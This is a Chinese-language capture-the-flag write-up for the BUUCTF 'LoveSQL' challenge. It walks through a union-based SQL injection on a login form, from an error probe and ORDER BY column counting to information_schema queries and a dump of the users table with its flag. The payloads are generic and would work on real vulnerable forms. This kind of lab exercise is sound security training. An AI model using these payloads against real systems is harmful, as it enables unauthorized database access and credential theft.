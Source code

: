 ---

# [极客大挑战 2019]LoveSQL 1

一个登录界面
![LoveSQL.png](https://i-blog.csdnimg.cn/blog_migrate/c40c0f04ba36a31811accce92b21cd6a.png)
输入用户名和密码，url 变成

```http
http://636437fd-3fef-4b6a-b088-41fa2c25c1a2.node5.buuoj.cn:81/check.php?username=1&password=1
```

- `636437fd-3fef-4b6a-b088-41fa2c25c1a2.node5.buuoj.cn`是服务器的 IP 地址
- `81`是服务器的端口号
- `check.php`是服务器上的一个 PHP 脚本
- `username`和`password`是表单提交的用户名和密码
  注入点在于`username`和`password`参数
  以下注入在`username`参数上进行，`password=1`

## 确定有 SQL 注入漏洞

输入单引号`'`，返回结果

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1'' at line 1
```

存在 SQL 注入漏洞，可以尝试使用`UNION SELECT`命令进行注入

## order by 确认查询字段数

```sql
# payload
1' order by 4#
# 返回结果：Unknown column '4' in 'order clause'
1' order by 3#
# 返回结果：NO,Wrong username password！！！
```

说明有**3 个字段**

## 寻找注入点

```sql
# payload
1' union select 1,2,3#
# 返回结果：
Login Success!
Hello 2！
Your password is '3'
```

2、3 是注入点，尝试使用`union select`命令进行注入

## `union select`命令进行注入

### 查数据库名、表名

```sql
payload: 1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
# 返回结果：
Login Success!
Hello geek！
Your password is 'geekuser,l0ve1ysq1'
```

- 数据库名称`geek`
- 两个表名`geekuser,l0ve1ysq1`

在 payload 中

- `database()`函数返回当前数据库名
- `where table_schema=database()`,这样就不用指定具体的数据库名，之前还多查一次数据库名记下来，现在不需要了
- `group_concat(table_name)`函数一次返回所有表名(用 concat 只返回第一个表名，limit 还需要一次次查询，麻烦)

### 查列名

```sql
payload:
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
# 返回结果：
Login Success!
Hello 2！
Your password is 'id,username,password'
```

有 3 列`id,username,password`

### 查数据

```sql
payload:
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
# 返回结果：
Login Success!
Hello 2！
Your password is '1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{d69b64fd-6051-4bc8-94f9-e3bb31f48a58}'
```

输出了`l0ve1ysq1`表中`id,username,password`三列的所有数据，最后一条就是 flag

## 总结

1. `database()、user()、version()`这类函数可以直接放入命令执行
   - `database()`可以替代数据库名，不需要先把数据库名找出来就能用,
   - 比如过滤条件`where table_schema=database()`
2. 在只能一次一次输出数据的时候
   - `group_concat()`函数可以一次返回所有数据
   - `group_concat(table_name)`可以返回所有表名
   - `group_concat(column_name)`可以返回所有列名
   - `group_concat(id,username,password)`可以返回三列的所有数据
